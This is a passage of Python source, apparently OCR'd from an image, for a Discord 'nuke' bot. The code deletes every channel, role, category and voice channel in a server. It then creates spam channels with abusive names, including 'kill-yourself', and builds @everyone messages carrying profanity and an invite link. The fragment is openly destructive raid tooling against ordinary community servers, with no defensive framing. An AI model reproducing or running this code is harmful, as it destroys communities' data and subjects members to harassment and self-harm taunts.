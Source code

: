         
        # Delete existing channels and categories
        for channel in ctx.guild.channels:
            await channel.delete()
            print(f"\033[1mDeleted Channel: {channel.name}.\033[0m")
        
        print("\033[1mAll Channels Are Done Being Deleted.\033[0m")

        for role in ctx.guild.roles:
          try:
           await role.delete()
           print(f"\033[1mDeleted Role: {role.name}.\033[0m")
          except discord.errors.HTTPException as e:
            if e.code == 50028:  # Invalid Role error code
              print(f"\033[1mRole '{role.name}' is invalid and cannot be deleted.\033[0m")



        
          
        for category in ctx.guild.categories:
            await category.delete()
            print(f"\033[1mDeleted Category: {category.name}.\033[0m")
        
        for voice_channel in ctx.guild.voice_channels:
            await voice_channel.delete()
        
        print("\033[1mAll Categories Have Been Deleted.\033[0m")

# create roles to annoy
        for _ in range(role_amount):
          asd = await ctx.guild.create_role(name=random.choice(role_names))
          print(f"\033[1mCreated Role: {asd}.\033[0m")

    guild = ctx.guild
    channel_names = []

    amount = record["channel_range"]
    for i in range(amount):
        channels = [
          "no-security",
          "nuked",
          "get-fucked",
          "giraffe-monkeys",
          "kill-yourself",
        ]
        channel_name = random.choice(channels)
        channel_names.append(channel_name)
        channel = await guild.create_text_channel(channel_name)
        print("\033[1mChannel Created\033[0m")

    # Send messages in all channels concurrently
    messages=[
      f"@everyone You Got Fucked Lmao!\n{server_invite}",
      f"@everyone It's Not That Bad Go Suck On Tits!\n{server_invite}",
      f"@everyone Dorito Bag jkk Get nuked\n{server_invite}",
      f"@everyone Oh My Gaah It's A Nuke! ```Yes, It Is A Nuke.```\n{server_invite}"
    ]
    message_content = random.choice(messages)
    